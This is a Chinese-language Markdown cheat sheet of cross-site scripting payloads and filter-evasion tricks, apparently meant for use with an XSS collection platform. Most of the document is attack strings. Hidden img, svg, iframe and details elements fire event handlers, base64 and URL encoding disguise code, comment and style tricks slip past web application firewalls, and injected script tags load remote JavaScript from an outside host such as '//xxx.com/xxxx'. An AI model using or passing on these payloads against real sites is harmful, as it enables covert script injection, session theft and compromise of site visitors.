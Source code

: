# x55-bypass

---

### 规则

```
1.x55平台做了http重定向https，//无论解析成http和https都可以使用；x55平台地址“？”后面可以不要
2.标签与第一个属性之间可以用“/”代替空格
3.引号内容可以转10进制或者16进制
4.style=display:none  #设置成无显示，PS：有些标签不一定支持
5.域名可以换成真实IP、url编码、双字节编码、16进制、8进制
6.网站有jq可以使用$.getScript("js地址")
7.如果//alert不行可以试试//prompt
```

### 常用

- 变形
  ```
  #//alert 或者prompt -> 网站有jq可以使用: $.getScript("js地址")
                         -> createElement('script');body.appendChild(s);s.src='js地址'>
                         -> eval(atob('YWxlcnQoJzEyMycp')) #base64接码：alert('123')
  ```
-  无script标签

  ```
  ##// <BODY/ONLOAD=alert(1)>   
  ##// <SVG/ONLOAD=alert(1) style=display:none>
  ##// <audio src=x onerror=alert("xss");>
  ##// <video style=display:none><source onerror="alert(1)">
  ```

- img（不显示图片）

  ```
  ##// <img/style=display:none src=# onerror=eval(atob('YWxlcnQoJzEyMycp'))>
  注：YWxlcnQoJzEyMycp => alert('123')
  ##// <img/src=# style=display:none onerror=$.getScript("js地址")>
  ##// <img/src=# style=display:none onerror=createElement('script');body.appendChild(s);s.src='js地址'>
  ```

- iframe data:text/html  # 目前只能测试能在iframe上使用

  ```
  ##// <iframe/style="display:none" src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">##</iframe>
注：%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E为url编码 -> ## 弹窗1
  ```

- details 详细标签 #可能会把后面的数据隐藏

  ```
  ##// <details/open/ontoggle=alert(1) style=display:none>
  ```



### 绕过规则

```
https://www.freebuf.com/articles/web/153055.html
https://www.cnblogs.com/wjrblogs/p/12341190.html
```

###  bypass 常规waf(x=alert(1))

```
冷门标签绕过：

##// `!-- --`绕过:
##// `<!--<img src="--><img src onerror=x//">`

##// `<style><img src="</style><img src onerror=x//">`
```

### 绕过<script src>的正则

```
##// <SCRIPT a=">" SRC="//xxx.com/xxxx"></SCRIPT>   
```

### 当fuzz出可以执行js代码的标签后，执行在当前页面添加script标签语句

```
##// <img src=# onerror=s=createElement('script');body.appendChild(s);s.src='js地址';>
```



